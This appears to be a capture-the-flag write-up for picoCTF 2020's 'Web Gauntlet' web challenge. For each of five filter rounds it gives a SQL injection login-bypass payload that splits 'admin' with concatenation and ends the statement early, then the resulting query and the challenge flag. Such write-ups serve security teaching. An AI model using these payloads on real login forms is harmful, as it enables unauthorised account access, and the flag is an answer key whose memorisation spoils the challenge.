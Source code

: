 # Web Gauntlet

```markdown
Tags: `picoCTF 2020 Mini-Competition` `Web Exploitation` 
```

## **Description**

Can you beat the filters? Log in as admin [http://jupiter.challenges.picoctf.org:29164/](http://jupiter.challenges.picoctf.org:29164/) [http://jupiter.challenges.picoctf.org:29164/filter.php](http://jupiter.challenges.picoctf.org:29164/filter.php)

## Round 1/5

<figure><img src="../.gitbook/assets/image (21) (1).png" alt=""><figcaption></figcaption></figure>

The filter of round 1: OR&#x20;

```sql
Username: ad'||'min';
password: 1
```

```sql
SELECT * FROM users WHERE username='ad'||'min';' AND password='1'
```

## Round 2/5

<figure><img src="../.gitbook/assets/image (22) (1).png" alt=""><figcaption></figcaption></figure>

The filter of round 2: or and like = --

```sql
Username: ad'||'min';
password: 1
```

```sql
SELECT * FROM users WHERE username='ad'||'min';' AND password='1'
```

## Round 3/5

<figure><img src="../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

The filter of round 3: or and = like > < --

```sql
Username: ad'||'min';
password: 1
```

```sql
SELECT * FROM users WHERE username='ad'||'min';' AND password='1'
```

## Round 4/5

<figure><img src="../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>

The filter of round 4: or and = like > < -- admin

```sql
Username: ad'||'min';
password: 1
```

```sql
SELECT * FROM users WHERE username='ad'||'min';' AND password='1'
```

## Round 5/5

<figure><img src="../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

The filter of round 5: or and = like > < -- union admin

```sql
Username: ad'||'min';
password: 1
```

```sql
SELECT * FROM users WHERE username='ad'||'min';' AND password='1' 
```

## Flag

<figure><img src="../.gitbook/assets/image (26) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (27) (1).png" alt=""><figcaption><p><code>picoCTF{y0u_m4d3_1t_a3ed4355668e74af0ecbb7496c8dd7c5}</code></p></figcaption></figure>

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)

